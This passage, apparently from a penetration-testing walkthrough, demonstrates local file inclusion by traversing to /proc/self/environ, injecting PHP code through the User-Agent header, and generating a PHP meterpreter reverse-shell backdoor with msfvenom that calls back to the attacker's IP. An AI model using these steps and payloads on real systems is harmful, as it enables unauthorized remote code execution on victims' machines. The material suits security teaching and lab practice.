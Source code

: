 <div style="text-align:center">

<img src="/assets/images/0001_LFI_burp_p3.png">

</div>

In the repeater tab we changed the file path to `../../../../../proc/self/environ` and checked the response with User-Agent value as `<?php phpinfo();?>`. A successful response would confirm to us that any php code we insert as User-Agent value would execute on the victim machine side and which also might help us to gain unauthorized access to the victim machine.

<div style="text-align:center">

<img src="/assets/images/0001_LFI_burp_p4.png">

</div>

As we found that it was giving us a successful response to PHP code, we move to the next step for creating a payload to upload onto the victim machine.

### Step 7
Here we generated a php web shell on Kali machine using the following command:

`msfvenom  -p  php/meterpreter/reverse_tcp  LHOST= Attacker’s IP address  LPORT=port > ~/backdoor.php`
